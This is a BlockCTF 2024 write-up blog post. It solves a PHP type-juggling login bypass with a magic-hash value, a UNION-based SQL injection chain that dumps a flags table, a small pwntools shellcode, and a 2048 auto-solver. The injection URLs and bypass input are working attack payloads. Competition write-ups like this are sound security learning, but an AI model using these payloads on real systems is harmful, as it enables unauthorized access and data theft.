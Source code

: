 +++
date = '2024-11-15T12:53:25+01:00'
draft = false
title = 'BlockCTF 2024 - writeup'
author = 'TheMrEviil'
categories = ['writeups']
+++
![image dotgit](/post/blockctf2024/blockctf_logo.png)
## WEB: Juggl3r

Description:
```
Juggl3r
200
The admin panel seems locked behind some odd logic, and the flag is hidden deep. Can you bypass the checks and uncover the secret?

http://54.85.45.101:8080/
```
This challange remember me why i lovd PHP and the same i hate it. When we go on website we have only login page with attempt 5 minut. 
In requests we find version PHP and Apache. Well... lets mix some params in request. When we set username `admin` and  `password[]=1` server response `` Warning: hash() expects parameter 2 to be string, array given in /var/www/html/login.php on line 36` 

This information give a lot of things + challange name Juggl3r. In PHP 7.4 we have some thing like type juggling. It's not good logic to equal variables example:
'123' == 123 : TRUE

but in warning we have information about `hash()` function let's check magic hash. Concept takes advantage of this behavior by using special strings that, when compared to each other with ==, are evaluated as equal to each other (even though they may seem different). In particular, it uses strings that PHP will interpret as a number 0 during comparison.

For example:

"0e12345" == "0" is true because "0e12345" is interpreted as 0.

Popular hashes in PHP are MD5, SHA256 

SHA256:
`34250003024812:0e46289032038065916139621039085883773413820991920706299695051332`


and we got admin. 
Next step in url we can change user_id parameter. but not interesting, but when i add -- we have SQL Syntax ERROR . AWESOME 

now we add a little bit SQL 
`http://54.85.45.101:8080/admin.php?user_id=NULL%20union%20select%201,%20table_name,%201%20FROM%20information_schema.tables%20LIMIT%201%20OFFSET%2083--`

and set user_id=NULL because we need spot to display query result. When we have table name `flags` get column name

`http://54.85.45.101:8080/admin.php?user_id=NULL union select 1, COLUMN_NAME, 1 FROM information_schema.columns WHERE table_name = 'flags' LIMIT 1 OFFSET 0--`

now we can read flag
`http://54.85.45.101:8080/admin.php?user_id=NULL union select 1, flag, 1 FROM flags WHERE id = 1--`

and gg `flag{juggl3_inject}`


## PWN: Only Ws

Description:
```
Only Ws
50
The flag is write there. All you have to do is get it.

nc 54.85.45.101 8005
```

When we connect to netcat we have flag address. Write some asm with the best friend ChatGPT
```
from pwn import asm, context

context.arch = 'amd64'

shellcode = asm("""
    mov rax, 1
    mov rdi, 1
    mov rsi, 0x4040a0
    mov rdx, 64
    syscall
    mov rax, 60
    xor rdi, rdi
    syscall
""")

with open("payload1", 'wb') as f:
    f.write(shellcode)
print(shellcode)

```

ok, now we can send a payload to nc and get flag
`flag{kinda_like_orw_but_only_ws}`

## MISC: 2048 ai

Description:

```
2048 ai
150
Can you speedrun 2048?

nc 54.85.45.101 8006
```

Code:
```
import time
import sys
import ctypes
import math
import os
import random
import pwn
from pwn import cyclic_find

pwn.context.log_level = 'debug'

def to_c_board(m):
    board = 0
    i = 0
    for row in m:
        for c in row:
            board |= int(round(math.log(c, 2))) << (4 * i) if c > 0 else 0
            i += 1
    return board

def movename(move):
    return ['w', 's', 'a', 'd'][move]

def find_best_move_for_4x4(board):
    if len(board) != 4 or any(len(row) != 4 for row in board):
        raise ValueError("Input must be a 4x4 matrix.")
    
    c_board = to_c_board(board)
    move = ailib.find_best_move(c_board)

    if move < 0:
        return "No moves available"
    return movename(move)

def parse_board_state(response):
    board_state = []
    lines = response.splitlines()[1:]
    for line in lines[:4]:  # Process only the first 4 lines for rows
        row = [int(x) for x in line.split() if x.isdigit()]
        # Pad row with zeros if less than 4 elements
        while len(row) < 4:
            row.append(0)
        board_state.append(row)

    while len(board_state) < 4:
        board_state.append([0, 0, 0, 0])
    
    return board_state

# Initializing the AI library
for suffix in ['so', 'dll', 'dylib']:
    dllfn = '2048-ai/bin/2048.' + suffix
    if os.path.isfile(dllfn):
        ailib = ctypes.CDLL(dllfn)
        break
else:
    print("Couldn't find 2048 library bin/2048.{so,dll,dylib}! Make sure to build it first.")
    sys.exit()

ailib.init_tables()
ailib.find_best_move.argtypes = [ctypes.c_uint64]

# Example board state
board_state = [
    [0, 0, 0, 0],
    [2, 0, 0, 0],
    [2, 0, 0, 0],
    [0, 0, 0, 0]
]


p = pwn.remote('54.85.45.101',8006)

last_moves = []
while True:
    response = p.recvuntil(b"Enter command(s) (w/a/s/d for movement, q to quit):", timeout=3).decode("UTF-8")
    
    
    if "Congratulations" in response or "Over" in response:
        print(response)
        sys.exit()
    
    board_state = parse_board_state(response)
    print("Stan planszy:", board_state)  
    
    move = find_best_move_for_4x4(board_state)
    print('move', move)
    if move == "No moves available":
        print("No valid moves left. Exiting.")
        sys.exit()
    
    last_moves.append(move)
    p.sendline(move.encode('utf-8'))

```


And we have `flag{f4st3r_th4n_hum4nly_p0ssibl3}`

We finish CTF on #19 :) 

Bye 